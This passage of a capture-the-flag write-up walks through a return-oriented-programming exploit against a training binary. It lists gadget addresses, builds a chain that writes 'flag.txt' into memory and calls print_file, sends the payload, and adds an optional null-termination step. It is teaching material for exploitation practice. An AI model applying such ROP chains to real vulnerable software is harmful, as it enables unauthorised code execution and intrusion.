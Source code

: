 ```python
# functions
f_printfile     = 0x400510

# addresses
a_writeLocation = 0x601030	# write location to build "flag.txt"

# gadgets
g_popR14R15     = 0x400690      # pop r14 ; pop r15 ; ret
g_writeR15AtR14 = 0x400628      # mov qword ptr [r14], r15 ; ret
g_popRdi        = 0x400693	# pop rdi; ret;
g_ret           = 0x400589      # ret;
```

Then, we'll build the chain.

```python
# align the stack
ropChain += p64(g_ret)

# write flag.txt to string
ropChain += p64(g_popR14R15)
ropChain += p64(a_writeLocation)
ropChain += b'flag.txt'
ropChain += p64(g_writeR15AtR14)

# call print_file with string address
ropChain += p64(g_popRdi)
ropChain += p64(a_writeLocation)
ropChain += p64(f_printfile)
```

Finally, we'll send the payload and get the flag:

```python
(proc.readuntil(b'> '))
proc.send(padding + ropChain)
proc.interactive()
```

This works! This gets us the flag.

{% hint style="success" %}
### **If we want to make our exploit more robust...**

We would need to ensure that the string is null-terminated. In the case that the data block after the one we chose gets used, we would need to ensure that the _flag.txt_ string is null-terminated.

To do this, we can add the following before the call to `print_file`:

```python
# write null byte to end of string
ropChain += p64(g_popR14R15)
ropChain += p64(a_writeLocation + 0x8)
ropChain += p64(0x0)
ropChain += p64(g_writeR15AtR14)
```
